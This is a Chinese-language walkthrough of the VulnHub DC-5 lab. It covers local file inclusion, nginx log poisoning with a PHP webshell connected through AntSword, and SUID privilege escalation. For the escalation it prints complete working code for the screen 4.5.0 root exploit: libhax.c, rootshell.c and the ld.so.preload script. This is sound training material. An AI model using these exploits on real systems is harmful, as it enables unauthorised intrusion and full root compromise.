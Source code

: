 ```yaml
---
title: DC-5复现
tags: 
  - vulnhub
  - 渗透测试
category: 靶场&靶机
permalink: /archives/4952/
published: 2022-06-26 20:04:03
---
```


# DC-5复现

# 描述

> DC-5是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 该计划是让DC-5将其提升一个档次，因此这对初学者来说可能不是很好，但对于具有中级或更好经验的人来说应该是可以的。时间会证明一切（反馈也会证明一切）。
>
> 据我所知，只有一个可利用的入口点可以进入（也没有SSH）。这个特定的入口点可能很难识别，但它就在那里。您需要寻找一些与众不同的东西（随着页面的刷新而改变的东西）。这有望提供某种关于漏洞可能涉及的内容的想法。
>
> 只是为了记录，不涉及phpmailer漏洞。:-)
>
> 此挑战的最终目标是获取根并读取唯一的标志。
>
> Linux技能和熟悉Linux命令行是必须的，基本的渗透测试工具的一些经验也是如此。
>
> 对于初学者来说，Google可以提供很大的帮助，但是您可以随时在@DCAU7上发推文给我寻求帮助，以帮助您再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。
>
> 但是，如果您真的，真的卡住了，您可以观看这个视频，其中显示了第一步。

# 实战

## 信息收集

> 确定目标靶机的IP
>
> 扫面网段并判断目标靶机的IP，最终确定IP：192.168.116.129，并发现该靶机开放了80、111端口

![image-20220921225731025](./images/image-20220921225731025.png)

- 访问80端口

![image-20220921225838699](./images/image-20220921225838699.png)

## 目录扫描

![image-20220921230332927](./images/image-20220921230332927.png)

## 寻找漏洞

- 访问footer.php，发现年份是一直在变化的

![image-20220921230358781](./images/image-20220921230358781.png)

- 然后又访问了thankyou.php，在这里发现该页面调用了footer.php

![image-20220921230429298](./images/image-20220921230429298.png)

- 应该是使用php的‘include()’ 函数来包含了 ‘footer.php’ 文件，这样直接导致了LFI漏洞，下面我们来测试一下漏洞是否真的存在和看一下是否会过滤包含进来的文件

![image-20220921230459378](./images/image-20220921230459378.png)

- 发现可以成功读取到 /etc/passwd文件，存在文件包含漏洞
  - 靶机服务扫描时发现靶机网站使用的是nginx服务器，通过百度nginx服务器的配置文件/etc/nginx/nginx.conf，将nginx的配置文件包含过来查看日志路径，经过仔细查看发现了nginx的日志路径 

![image-20220920191246277](./images/image-20220920191246277.png)

## 漏洞利用

- 于是我们尝试包含日志文件，然后我们可以看到，日志文件会记录我们传入的参数，所以我们可以把php一句话当参数传给日志文件，然后再次尝试包含日志文件，即可使用webshell管理工具，蚁剑连接即可获得shell

![image-20220920200407600](./images/image-20220920200407600.png)

![image-20220920200444798](./images/image-20220920200444798.png)

- 蚁剑连接

![image-20220920200625503](./images/image-20220920200625503.png)

## 反弹shell

- 进入虚拟终端反弹shell

![image-20220920204425272](./images/image-20220920204425272.png)

- 切换一下shell的外壳;

```python
python -c 'import pty;pty.spawn("/bin/sh")'
```

## 提权

- 这里用的是suid提权,先用下面命令查找哪些命令具有suid权限

```
find / -perm -u=s -type f 2>/dev/null
```

![image-20220921140010475](./images/image-20220921140010475.png)

> 找到一个screen-4.5.0，
>
> 用searchsploit 查找相关漏洞脚本

```
searchsploit screen 4.5.0 
```

![image-20220921140243318](./images/image-20220921140243318.png)

- 找到文件位置

![image-20220921141422922](./images/image-20220921141422922.png)

- 查看文件

![image-20220921141524801](./images/image-20220921141524801.png)

- 保存并编译libhax.c和rootshell.c

![image-20220921141717743](./images/image-20220921141717743.png)

- 编译libhax.c

- 脚本

>  gcc -fPIC -shared -ldl -o libhax.so libhax.c 

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

- 编译rootshell.c
- 脚本

>  gcc -o rootshell rootshell.c

```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

> 将剩余代码保存为dc5.sh，再用vim打开编辑
>
> 保存dc5.sh文件输入 **:set ff=unix** ，否则在执行脚本文件时后出错

```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell    
```

![image-20220921215636375](./images/image-20220921215636375.png)

- 将libhax.so 、rootshell 、dc5.sh三个文件通过蚁剑上传到靶机/tmp目录

![image-20220921220755016](./images/image-20220921220755016.png)

- 上传成功后，执行dc5.sh

> chomd +x dc5.sh	//增加执行权限
>
> ./dc5.sh	//执行文件

![image-20220921221625827](./images/image-20220921221625827.png)

- 进到root文件夹读取文件

![image-20220921221721259](./images/image-20220921221721259.png)